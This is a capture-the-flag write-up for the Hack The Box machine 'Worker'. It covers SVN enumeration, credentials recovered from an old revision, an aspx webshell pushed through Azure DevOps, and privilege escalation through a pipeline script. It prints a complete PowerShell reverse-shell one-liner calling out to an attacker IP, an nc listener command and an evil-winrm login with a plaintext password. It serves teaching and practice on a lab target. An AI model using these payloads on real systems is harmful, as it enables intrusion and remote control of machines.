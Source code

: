 # Worker



## Contents

- [**About Box**](#About Box)
- [**Profile**](#Profile)
- [**Enumeration**](#Enumeration)
- [**Exploitation**](#Exploitation)
- [**Post-exploitation**](#Post-exploitation)
  - [**Own User**](#Own User)
  - [**Own Root**](#Own Root)




## About Box

 ![](img/about_box.png)



## Profile

[![Akinflo](http://www.hackthebox.eu/badge/image/419539)](https://www.hackthebox.eu/home/users/profile/419539)



## Enumeration

First, nmap scan:

 ![](img/nmap.png)



Port 80 is open and Microsoft IIS is used. After a look in the website, i found nothing. So, i tried to look for the 3690 port which is svn service.

I start to list the files in the the svn server using the command:

```bash
svn list svn://10.10.10.203
```

 ![](img/svn_list.png)

After that, i start to connect to this server with:

```bash
svn co svn://10.10.10.203
```

I got this files. In the directory, i read the `index.html` file and got lot of new subdomains:

 ![](img/all_subdomain.png)



I found another new subdomain `devops.worker.htb` in `moved.txt` file:

 ![](img/new_subdomain.png)

After adding the subdomains to my `/etc/hosts` file, i tried to connect on my browser to this webpages. I found nothing on this webpages but `devops.worker.htb` wanted authentication.

So i continue my searches on the svn server to get credentials.

I checked all revisions commited with:

```bash
svn log -v svn://10.10.10.203
```

 ![](img/svn_log.png)



I found a file which is not on the current revision but on the revision 2, so i tried to get it with the export option:

```bash
svn export -r 2 svn://10.10.10.203 revision2
```

 ![](img/revision2.png)

Got it. Have a look in this file and we got credentials:

 ![](img/credentials_svn.png)

Now we can log in the previous webpage.



## Exploitation

Here, Azure Devops is deployed. I search a while on this webpage and i found the subdomains builds on the Azure pipeline section:

 ![](img/pipeline_builds.png)



So, i executed the build pipeline, after that, i found a lot of information about how the website is deployed:

 ![](img/repos_url.png)



I tried to add the `_git/aplha` path to the git repository url: `http://devops.worker.htb/ekenas/SmartHotel360/_git/alpha`

So, i have access to the website git repository, and for all user found previously. First, i create a new branch on the git repo of Lens, after that, i tried to upload different type of files and the **aspx** extension worked. So i upload an **aspx webshell** file, commit it:

 ![](img/commit_shell.png)



After that, i had to validate a pull request to merge the temperaly branch to the master branch:

 ![](img/pull.png)



I tried to load shell.aspx: `http://lens.worker.htb/shell.aspx` and i got the webshell:

 ![](img/webshell.png)



I start my port listener:

```bash
nc -lvp 4242
```



And enter the following payload to get my shell:

```cmd
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.124',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```



And i got it:

 ![](img/reverse_shell.png)



Go to `c:\Users` to list the user, see that is **robisl**, after that, i continue to search credentials and i got a file in the following path `w:\svnrepos\conf\passwd`, and i found **robisl** password  :

 ![](img/user_passwd.png)



## Post-exploitation

### Own User

I tried to use a windows remote management tool called **evil-winrm** to create remote connection to **robisl** account: 

```bash
evil-winrm -i devops.worker.htb -u robisl -p wolves11
```

 And it worked:

 ![](img/owned_user.png)



### Own Root

First, i connected to **robisl** account on `devops.worker.htb`, and after some searches, i found that i can trigger powershell command remotely with administrator privileges.

To trigger it, i went to the pipeline section to create a build and i added powershell script to make reverse shell:

 ![](img/powershell_pipeline.png)



After that, i saved and add it on the queue:

 ![](img/queue.png)



When i clicked on this build, i got the reverse shell and owned root:

 ![](img/rooted.png)

